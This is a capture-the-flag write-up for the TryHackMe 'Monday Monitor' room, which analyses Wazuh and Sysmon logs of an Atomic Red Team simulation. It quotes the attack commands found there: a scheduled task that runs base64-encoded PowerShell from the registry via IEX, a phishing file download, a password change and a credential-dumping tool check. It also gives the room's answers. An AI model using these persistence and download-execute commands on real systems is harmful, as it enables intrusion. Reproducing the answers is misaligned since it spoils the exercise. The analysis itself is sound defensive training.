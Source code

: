 ```yaml
---
title: "TryHackMe: Monday Monitor"
author: Kleiner
categories: [TryHackMe]
tags: [windows, Wazuh, Sysmon]
render_with_liquid: false
media_subpath: /images/thm_monday_monitor/
image:
  path: room_icon.png
---
```


[![Tryhackme Room Link](monday_monitor_img.png){: width="600" height="300" .shadow}](https://tryhackme.com/room/mondaymonitor){: .center }

## Scenario

Swiftspend Finance, the coolest fintech company in town, is on a mission to level up its cyber security game to keep those digital adversaries at bay and ensure their customers stay safe and sound.

Led by the tech-savvy Senior Security Engineer John Sterling, Swiftspend's latest project is about beefing up their endpoint monitoring using Wazuh and Sysmon. They've been running some tests to see how well their cyber guardians can sniff out trouble. And guess what? You're the cyber sleuth they've called in to crack the code!

The tests were run on Apr 29, 2024, between 12:00:00 and 20:00:00. As you dive into the logs, you'll look for any suspicious process shenanigans or weird network connections, you name it! Your mission? Unravel the mysteries within the logs and dish out some epic insights to fine-tune Swiftspend's defences.

Once logged in, navigate to the **Security** events module and use the saved query **`Monday_Monitor`** to access the logs.

## Approach

We head over to the dashboard and view the data present to us. Press the **Floppy Disk** icon to apply the **`Monday_Monitor`** filter. We also need to set the timeline to **Apr 29, 2024, between 12:00:00 and 20:00:00**. 

We filter out the following attributes as columns in the table:  **data.win.eventdata.commandLine, eventdata.parentCommandLine** because these attributes provide critical insights into the exact commands executed by a process and its parent. This helps trace the origin and propagation of potentially malicious activity, such as identifying the initial vector (e.g., a downloaded file execution) and understanding the chain of process creation that led to system compromise.

Note: The questions for this task are not answered in order as the solutions were found by going through logs and noticing the anomalies within those logs along the way. 

#### Question 7: Data was exfiltrated from the host. What was the flag that was part of the data?

After adding the columns into the table, we noticed that there is a flag hidden among the commandLine columns. (If you didn't scroll too fast!)

![Q7](q7.png){: height="200"}

From this log we know that the threat actor achieved his goal at 14:56 PM.

#### Question 5: What password was set for the new user account?

![Q5](q5.png)

The command **C:\Windows\system32\net1 user guest I_AM_M0NIT0R1NG** indicates that the password for the guest user account was changed to I_AM_M0NIT0R1NG. This is based on the syntax of the net user command, which follows the format **`net user <username> <new_password>`**.

#### Question 2: What is the full command run to create a scheduled task?

At time 14:12:43, we noticed a very interesting command line, inclduding the parent command line.

As you have noticed, the approach is done by slowly working backwards and discovering the anomalies as we go along. 

![Q2](q2.png)

We noticed the **schtask.exe** command here which is responsible for scheduling tasks.

The full command is the parent command line here in the snapshot.
Solution: \"cmd.exe\" /c \"reg add HKCU\\SOFTWARE\\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f &amp; schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \\\"\\\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\\\SOFTWARE\\\\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34\"

#### Question 3: What time is the scheduled task meant to run?

The scheduled time is found in the parent command line from question 2, which is **12:34** PM.

#### Question 1: Initial access was established using a downloaded file. What is the file name saved on the host?

At time 13:50:12, we noticed a rather suspicious command line.

The command **`$url ='http://localhost/SwiftSpend_Financial_Expenses.xlsm'`** sets a variable $url with the address of the file to download. The file is hosted on localhost, meaning the threat actor might have set up a local web server. The file type .xlsm is an Excel macro-enabled spreadsheet, often used in phishing.

The part **`Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm`** downloads the file from $url and saves it as PhishingAttachment.xlsm in the system's temp directory. However, the task only accept the answer ***`SwiftSpend_Financial_Expenses.xlsm'`** which is the host file instead o the saved file, when the saved file is requested.

#### Question 6: What is the name of the .exe that was used to dump credentials?

I thought this was a easy question and assumed the answer was mimikatz.exe, as this malware is a popular an exploit on Microsoft Windows that extracts passwords stored in memory and software that performs that exploit.

![Q6](q6.png)

After going through a long long time of scrolling and testing other executables found in the logs, I stumbled upon the command **`\"powershell.exe\" &amp; {$mimikatz_path = cmd /c echo C:\\Tools\\AtomicRedTeam\\atomics\\T1003.001\\bin\\x64\\memotech.exe if (Test-Path $mimikatz_path) {exit 0} else {exit 1}}`** 

The command uses PowerShell to verify whether the memotech.exe binary—commonly used in Atomic Red Team simulations of credential dumping (T1003.001)—is present at the specified path. It exits with code 0 if the file exists, or 1 otherwise, making it suitable for scripting and automated test validation.

#### Question 4: What was encoded?

It took quite some time until I finally decided to look for online solution. I was indeed frustrated when the solution was just right infront of my eyes. 

From the parent command line in Question 2, there is a string which appears to be an encoding of base 64. 

```console
reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f
```

This commands adds a string (**REG_SZ**) to the registry at **HKCU\SOFTWARE\ATOMIC-T1053.005**. The value name is **test** with the data **`cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0`**. Using Cyberchef, the base64 decodes to **`ping www.youarevulnerable.thm`** , which is the solution to Question 4. 
